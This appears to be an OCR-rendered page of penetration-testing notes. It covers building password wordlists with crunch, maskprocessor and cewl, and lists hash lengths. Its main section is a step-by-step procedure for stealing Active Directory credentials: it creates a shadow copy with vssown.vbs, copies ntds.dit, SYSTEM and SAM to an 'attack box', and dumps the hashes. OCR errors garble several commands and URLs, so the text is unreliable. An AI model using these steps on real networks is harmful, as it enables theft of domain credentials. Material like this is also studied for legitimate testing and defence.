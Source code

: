 ## List of passwords

### Creating different words based on one word

```text
#Add lower(@), upper(,), ~umber(%), and symbol(^) I to the end of the word
crunch 12 12 -t baseword@,%^ wordlist.txt

Use custom special character set and add 2 numbers then special character
maskprocessor -custom-charset1=\!\@\#\$ baseword?d?d?l wordlist.txt

generate wordlist from website with number
cewl -d 5 -m 3 -w wordlist http://fuse.fabricorp.local/papercut/logs/html/index.htm --with-numbers
```

## Vsown command

```text
1. Download: http://ptscripts.googlecode.com/svn/trunk/windows/vssown.vbs
2. Create a new Shadow Copj
     a. cscript vssown.vbs /start (optional)
     b. cscript vsown.vbs /create
3. Pull the following files frorr. a shadow copj:
     a. Copy
     \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\
     ntds\ntds.dit.
b. copj
     \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\
     System32\config\SYSTEM.
     C. COpj
     \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\
     system32\config\SAM.
4. Copj files to attack box.
5. Download tools: http://www.ntdsx~ract.com/downloads/ntds dump_hash.zip
6. Configure and Make source code for libesedb from the extracted package
     a. cd libesdb
     b. chmod +x configure
     c. ./configure && make
Use esedbdumphash to extract the data table from ntds.dit.
     a. cd esedbtools
     b. . I esedbdumphash ../../ntds.dit
```

## File hash

### Hash length

```text
MD5 16 bytes
SHA-1 20 bytes
SHA-256 32 bytes
SHA-512 64 bytes
```
